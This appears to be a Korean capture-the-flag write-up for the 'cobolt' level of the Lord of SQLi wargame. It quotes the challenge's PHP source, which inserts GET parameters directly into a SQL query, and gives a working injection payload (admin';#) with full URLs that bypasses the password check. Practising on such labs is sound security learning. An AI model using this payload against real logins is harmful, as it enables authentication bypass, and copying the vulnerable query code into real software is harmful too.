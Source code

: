 # Lord of SQLi - cobolt
> query : select id from prob_cobolt where id='' and pw=md5('')

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
  highlight_file(__FILE__);
?>
```
- GET방식으로 id 와 pw 을 넘겨주고 있다.
- id와 pw 둘 다 prob, \_, ., () 문자만 필터링 하고있다. 문제의 DB를 공격하여 DB를 수정하는 것을 막는다.
- mysql에서 id는 그대로, pw는 md5 해시함수로 해싱해서 select구문을 실행하도록 쿼리를 전달한다.

> query : select id from prob_cobolt where id='' and pw=md5('')  
> 위 쿼리를 DB에 전송하여 id컬럼의 값이 'admin'이면 문제가 풀린다.

- md5()는 암호화 해시함수로 해시 값으로부터 원래의 입력값과의 관계를 찾기 어려운 성질을 가지는 함수이다.
- md5()로 감싼 pw에서 쿼리를 탈출하는 것은 힘들다. 그래서 id에서 탈출을 할 것이다.
- URL로 id=admin';%23
```php
<?php
  $_GET['id'];
?>
```

- 위와 같이 슈퍼전역변수에 admin이라는 값을 전달하고 mysql쿼리를 종료할 수 있도록 싱글쿼터와 주석인  #을 URL인코딩해서 GET방식으로 전달해주면 URL이 아래와 같다.
> ?id=admin';%23%20    //%20은 공백이다.
- 전달을 하면 쿼리는 아래와 같다.
```php
<?php
	$query = "select id from prob_cobolt where id='admin';# ' and pw=md5('')"  
?>
```
- id가 admin이 되고 pw는 검사하지 않으니 결과가 나온다. 즉 문제가 풀린다.

### payload

> URL : http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin';%23  
or  
> URL : http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27;%23

> query : select id from prob_cobolt where id='admin';# ' and pw=md5('')